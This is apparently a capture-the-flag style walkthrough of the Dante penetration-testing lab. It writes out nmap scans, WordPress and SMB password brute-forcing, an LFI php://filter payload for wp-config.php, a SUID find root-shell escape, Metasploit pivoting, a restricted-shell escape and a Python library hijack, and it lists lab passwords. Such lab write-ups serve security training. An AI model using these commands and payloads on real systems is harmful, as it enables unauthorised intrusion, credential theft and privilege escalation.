 # Dante

## DANTE-WEB-NIX01

Ping sweep to find the machines

```
nmap -sn -T4 10.10.110.0/24
```

Full scan on the found host **10.10.110.100**

```
nmap -T4 -sC -sV -p- --min-rate=1000 10.10.110.100
```

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Login on ftp as anonymous to found **todo.txt** inside

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Inside [**http://10.10.110.100:65000/robots.txt**](http://10.10.110.100:65000/robots.txt) there is another flag and a wordpress link

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

With wpscan we can see that there are some vulns

```
wpscan --url 'http://10.10.110.100:65000/wordpress/'
```

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

And the users

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Now we can try to bruteforce the weak james password

{% code overflow="wrap" %}
```
wpscan --url 'http://10.10.110.100:65000/wordpress/' --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

The creds are James/Toyota. Now modify the theme to get a web shell and then a revshell.

Now we can escalate to James by using the same password from wp (Toyota)

```
su James
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Find has SUID on it

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Grab the shh root key

## Pivoting

(Simple with ssh -d 9050 )&#x20;

Setup metasploit to pivot throught the network

Upgrade the root ssh to meterpreter session and launch the following commands

```
use multi/manage/autoroute
set session 3
set subnet 172.16.1.0/24
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Then We will use **auxiliary/server/socks\_proxy** to create a proxy server which will allow us to proxy all our traffic from tools like nmap, crackmapexec etc within the meterpreter session.

```
use auxiliary/server/socks_proxy
set SRVPORT 9050
```

and then modify the file `/etc/proxychains4.conf`



To find other ips in the subnet use the module&#x20;

```
use post/multi/gather/ping_sweep
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## DANTE-NIX02

To run nmap throught proxychains

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5
```

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Now open firefox with proxychains

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

As expected there is an LFI in the `nav.php?page=` endpoint

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

On the SMB

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

### Margaret

Bruteforce the password with the user found with the LFI

{% code overflow="wrap" %}
```
proxychains crackmapexec smb 172.16.1.10 -u user.txt -p /usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

and get the file inside

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Let's check if wordress is indeed there (Spoiler: Yes) and try to get the wp-config file

{% code overflow="wrap" %}
```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Now we have ssh access on 172.16.1.10 with a restricted shellls. To escape and get a full shell open vim and launch the following commands

```
:set shell=/bin/bash
:shell
```

On the frank home we find a slack report and some interesting password

* STARS5678FORTUNE401
* 69F15HST1CX
* TractorHeadtorchDeskmat

Now i can su to Franck

### Frank

In the home of frank there is apache\_restart.py.

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

We can hijack the library urllib by creating it inside the frank's home and let it create a new SUID sh

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

## DANTE-NIX03&#x20;

scan the ports

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5
```

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

On the webpage there is a directory listing

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>
